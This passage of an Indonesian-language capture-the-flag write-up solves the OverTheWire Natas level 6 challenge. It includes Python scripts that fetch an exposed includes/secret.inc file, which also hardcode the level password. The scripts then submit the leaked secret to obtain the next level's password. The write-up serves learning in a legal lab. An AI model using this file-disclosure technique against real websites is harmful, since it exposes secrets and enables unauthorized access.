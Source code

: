 Ditengah terdapat sebuah code php yang akan saya jelaskan, pertama codenya melakukan include sebuah file di folder includes bernama secret.inc , kemudian melakukan pengecekan jika input sudah diterima maka akan dilakukan pengecekan lagi.

Jika input yang kita masukkan sama dengan secret yang dimaksud, maka kita akan mendapatkan password untuk natas7. Pertama penulis berpikir untuk melakukan bruteforce tetapi untuk berjaga jaga penulis melakukan beberapa pengecekan terlebih dahulu. Pertama mari kita mencoba masuk ke includes/secret.inc

Penulis membuat sebuah script python simpel

```
#!/usr/bin/env python3
import requests
import re
 
user = "natas6"
pw = "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
 
url = "http://natas6.natas.labs.overthewire.org/"
 
session = requests.Session()
 
response = session.post(url+"includes/secret.inc" , auth = (user,pw))
 
output = response.text
print(output)
```

Menjalankan script ini akan menghasilkan output berupa

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Baik kita sudah mendapat secretnya mari kita coba masukkan kedalam kolom input

```
#!/usr/bin/env python3
import requests
import re
 
user = "natas6"
pw = "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
 
url = "http://natas6.natas.labs.overthewire.org/"
 
session = requests.Session()
 
response = session.post(url, data = {'secret':'FOEIUWGHFEEUHOFUOIU', 'submit':'submit'},auth = (user,pw))
 
output = response.text
print(output)
```
